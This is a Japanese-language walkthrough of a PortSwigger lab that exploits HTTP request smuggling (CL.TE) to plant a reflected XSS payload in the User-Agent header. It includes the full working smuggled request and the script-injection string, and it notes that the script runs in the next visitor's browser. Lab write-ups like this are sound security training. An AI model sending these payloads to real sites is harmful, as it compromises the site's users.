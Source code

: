 # HTTP リクエストの密輸を悪用して反映された XSS を配信する

次のハッキングラボを実施します  
https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss  
このラボにはフロントエンド サーバーとバックエンド サーバーが含まれますが、フロントエンド サーバーはチャンク エンコーディングをサポートしていません。

- 1. BurpSuite を起動して、Proxt タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. 任意にブログにコメントを書き込みます
- 4. コメント一覧を表示します  
     隠された領域に userAgent の値が格納されています

```html
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
  <input required type="hidden" name="csrf" value="HszEqA0eL5fcFKbQhqgn6Dq169MyTLk1" />
  <input required type="hidden" name="userAgent" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36" />
  <input required type="hidden" name="postId" value="1" />
  <label>Comment:</label>
  <textarea required rows="12" cols="300" name="comment"></textarea>
  <label>Name:</label>
  <input required type="text" name="name" />
  <label>Email:</label>
  <input required type="email" name="email" />
  <label>Website:</label>
  <input pattern="(http:|https:).+" type="text" name="website" />
  <button class="button" type="submit">Post Comment</button>
</form>
```

- 5. 次のリクエストを送信します

```
POST / HTTP/1.1
Host: 0a1b0004042997c980f0b20a00300098.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=9 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1

```

このリクエストにより、次回コメント一覧を開いた人の環境でスクリプトが実行されます。
